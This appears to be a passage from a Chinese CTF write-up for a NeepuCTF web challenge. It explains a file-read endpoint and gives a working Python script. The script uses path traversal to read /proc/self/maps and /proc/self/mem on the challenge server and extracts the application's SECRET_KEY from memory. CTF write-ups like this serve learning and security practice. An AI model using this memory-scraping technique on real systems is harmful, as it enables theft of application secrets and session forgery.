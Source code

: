 ```python
        data = ("File `%s` not exist or can not be read" % filename).encode()

    return data
```

该文件是用来读取文件内容的，并且可以指定读取的起始地址



然后我们需要思考突破点，我们怎样才能得到key呢，这个是随机产生的，我们不可能猜出来。

由于我们不知道key，但是由于程序在运行时，会将部分信息存入内存中，所以我们只需要找到内存中带有： `*NeepuCTF*` 字样的字符串取出来就是`SECRET_KEY`了

我们编写脚本：

```python
# -*- coding = utf-8 -*-
# @Time : 2023/5/24 23:32
# @Author : Leekos
# @File : cute.py
# @Software : PyCharm

import requests
import re

url = "http://neepusec.fun:28912/r3aDF1le?filename=../../../"
def maps():

    req = requests.get(url=url + "/proc/self/maps")
    text = req.text
    ls = text.split("\n")
    pattern = "([0-9a-z]+)-([0-9a-z]+) rw"
    for l in ls:
        map_addr = re.match(pattern,l) 
        if map_addr:
            # print(map_addr.group(1),"-",map_addr.group(2))
            start = int(map_addr.group(1), 16) #group(1)会得到匹配到的字符串的第1个值，模式串中第1个大括号匹配到的
            end = int(map_addr.group(2), 16)
            mem_url = url + "/proc/self/mem&start="+str(start)+"&end="+str(end)
            requ = requests.get(url=mem_url)
            if "*NeepuCTF*" in requ.text:
                mem_pattern = b"[A-Za-z0-9+/=]{40}\*NeepuCTF\*"
                key = re.findall(mem_pattern, requ.content) # 内存有很多不可打印字符，所以使用字节形式
                print("Secret Key: " + bytes.decode(key[0])) # 将字节解码为字符串
                break



if __name__ == "__main__":
    maps()
```

> 解释一下这个脚本的意思：
>
> 首先获得maps文件的值，然后分隔成列表，进行遍历。
>
> ```python
> pattern = "([0-9a-z]+)-([0-9a-z]+) rw"
> # 匹配maps中有读写权限rw的字符串
> ```
>
> 当匹配到时，if条件为真，将group(1)、group(2)分别转为10进制（代表内存的首末地址）
>
> 然后根据地址读取mem文件的值，如果内存中包含指定字符串就打印出key
